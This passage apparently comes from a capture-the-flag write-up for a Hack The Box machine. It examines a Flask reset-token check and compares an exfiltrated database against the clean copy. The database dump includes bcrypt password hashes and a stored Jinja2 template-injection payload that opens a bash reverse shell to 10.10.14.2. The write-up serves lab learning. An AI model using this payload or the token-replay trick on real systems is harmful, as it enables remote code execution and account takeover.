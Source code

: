 

Looking at the source code, it seems that `user_id` is what is read out
of this cookie, and then used to fetch the user from the database:



        @staticmethod
        def verify_reset_token(token):
            s = Serializer(current_app.config['SECRET_KEY'])
            try:
                user_id = s.loads(token)['user_id']
            except:
                return None
            return User.query.get(user_id)    



So if I can keep a valid cookie across box resets (or database clears),
I can become another user. This seems unlikely to come up on a real
world system, but will come up all time time on CTFs like HTB.

#### Database Frozen State

I exfiled a copy of `site.db` from the working site directory just after
a reset. In this database, there are two users:



    root@kali# sqlite3 site.db 
    SQLite version 3.33.0 2020-08-14 13:23:32
    Enter ".help" for usage hints.
    sqlite> select * from user;
    1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S
    2|shaun|s@s.com|default.gif|$2b$12$wW0SocwtbEImnxgWoHJPMOzbTKs1qYCeE5Q0KnBtCXqD7NzuDne4y



There's also the exploit post associated with userid 2:



    sqlite> select * from post;
    1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
    2|{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").read()}}{%endif%}{%endfor%}|2020-09-28 13:01:21.252038|dsdsdsa|2



I grabbed a copy of the "clean" database from `/opt/clean`, and it only
showed one user:



    sqlite> select * from user;
    1|admin|admin@doctor.htb|default.gif|$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S



And only one post:



    sqlite> select * from post;
    1|Doctor blog|2020-09-18 20:48:37.55555|A free blog to share medical knowledge. Be kind!|1
